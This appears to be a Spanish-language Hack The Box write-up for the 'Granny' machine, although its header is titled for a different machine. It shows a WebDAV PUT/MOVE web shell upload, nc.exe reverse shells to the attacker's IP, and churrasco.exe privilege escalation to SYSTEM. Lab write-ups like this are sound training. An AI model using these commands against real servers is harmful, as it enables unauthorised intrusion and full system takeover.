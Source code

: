 ```yaml
---
title: TwoMillion - HTB Writeup
date: 2023-09-10 19:00:00 +0800
categories: [Writeups, HTB]
tags: [Easy, Windows, Writeup]
image:
  path: /assets/img/post/granny/vishnu-mohanan-pfR18JNEMv8-unsplash.jpg
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
---
```


Granny es una máquina de dificultad ```Easy``` en la plataforma **Hack The Box**

En esta máquina explotaremos una vulnerabilidad de ```Webdav``` que nos permitirá llevar a cabo un ```RFI```

## **Reconocimiento**

Utilizaremos la herramienta ```nmap``` para listar los puertos abiertos en la máquina víctima:

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.15 -oG allPorts
```

![img](/assets/img/post/granny/fc0e3620-808f-47be-b1f9-d096392af0ab.png)

Vemos que esta el puerto ```80``` abierto.

Vamos a realizar un escaneo de **servicios** y **versiones** corriendo por este puerto:

```bash
nmap -sCV -p80 10.10.10.15 -oN versions
```

![img](/assets/img/post/granny/772fc76a-3774-4bd5-baf7-7bbd0b259c64.png)

Gracias al conjunto de scripts básicos de reconocimiento que aplica el escaneo, podemos ver los tipos de peticiones que se pueden realizar en el servidor, además de que en el puerto ```80``` se ha detectado un ```Webdav``` además de un ```IIS```

Si entramos en la web no vamos a ver nada relevante, ni que podamos usar:

![img](/assets/img/post/granny/76a-3774-4bd5-baf7-7bbd0b259c64.png)

## **Explotación**

Vamos a aprovechar una vulnerabilidad de ```Webdav``` que nos permite mediante ```curl``` subir archivos a la máquina víctima

Para ello vamos a intentar subir una **web shell** ```(cmdasp.aspx)```

Primero copiaremos la **web shell** en la ruta actual

```bash
cp /usr/share/webshells/aspx/cmdasp.aspx ..
```

Posteriormente subiremos la **web shell** a la máquina víctima con curl:

```bash
curl -s -X PUT http://10.10.10.15/cmdasp.txt -d @cmdasp.aspx 
```

> Subiremos el archivo en formato ```.txt``` ya que no podremos en formato ```.aspx```

Una vez el archivo ya subido aprovecharemos el metodo ```MOVE``` para cambiar la extensión de la **web shell** y poder ejecutarla:

```bash
curl -s -X MOVE -H "Destination:http://10.10.10.15/cmdasp.aspx" http://10.10.10.15/cmdasp.txt 
```

> Utilizaremos la cabecera ```Destination``` para modificar el archivo

Ahora si accedemos al archivo tendremos una shell en la que podremos ejecutar comandos:

![img](/assets/img/post/granny/c5fbbfb9-1184-44aa-b98e-2b6d3ab861b2.png)

Para conseguir una **reverse shell** nos copiaremos al archivo actual el ```nc.exe```

```bash
cp /usr/share/SecLists/Web-Shells/FuzzDB/nc.exe . 
```

Utilizaremos ```impacket-smbserver``` para establecer una conexión por ```smb``` y así poder compartir el archivo ```nc.exe``` con la máquina víctima

```bash
impacket-smbserver smbFolder $(pwd)
```

Por otra parte en la web shell ejecutaremos el siguiente comando para compartirnos una shell mediante ```nc.exe```

```bash
\\10.10.14.5\smbFolder\nc.exe -e cmd 10.10.14.5 443
```

Y a su vez en nuestra máquina nos pondremos en escucha por el puerto ```443```

```bash
rlwrap nc -nlvp 443
```

Y como vemos habremos conseguido acceso a la máquina:

![img](/assets/img/post/granny/20a75187-f421-4a7c-a021-284397c4291d.png)

Pero no tendremos acceso a los usuarios de la máquina por lo que no podremos ver las flags

## **Escalada de Privilegios**

Para listar los permisos del usuario ejecutaremos:

```bash
whoami /priv
```

![img](/assets/img/post/granny/92b4235d-30a4-4130-86c5-e1e67f582553.png)

El permiso que nos interesa es ```SeImpersonatePrivilege```

Si buscamos sobre la escalada de privilegios explotando este permiso nos llevará a https://github.com/Re4son/Churrasco/raw/master/churrasco.exe y descargaremos el ejecutable ```churrasco.exe``` *(xd)*

Utilizando el ```impacket-smbserver``` compartiremos el ejecutable con la máquina víctima

```bash
impacket-smbserver smbFolder $(pwd)
```

En la máquina víctima nos moveremos a ```C:\WINDOWS\temp``` y en esta ruta usaremos el comando: 

```bash
copy \\10.10.14.5\smbFolder\churrasco.exe churrasco.exe
```

Y una vez copiado ejecutaremos ```churrasco.exe```

```bash
churrasco.exe
/churrasco/-->Usage: Churrasco.exe [-d] "command to run"
```
Por lo tanto al ver el uso del comando intentaremos conseguir una shell como ```root```, así que deberemos usar ```nc.exe```:

```bash
churrasco.exe "\\10.10.14.5\smbFolder\nc.exe -e cmd 10.10.14.5 443"
```

Y de nuevo nos pondremos en escucha con ```nc``` por el puerto ```443```:

![img](/assets/img/post/granny/02314c0d-6e4f-4428-b151-05c1cb14f8dd.png)

Y ya tendremos acceso a la máquina como usuario privilegiado

Podremos ver **ambas flag** en el ``Desktop`` del ``usuario`` y del ``administrator``

Espero que os haya gustado y servido, cualquier comentario es de muchas ayuda. Adios!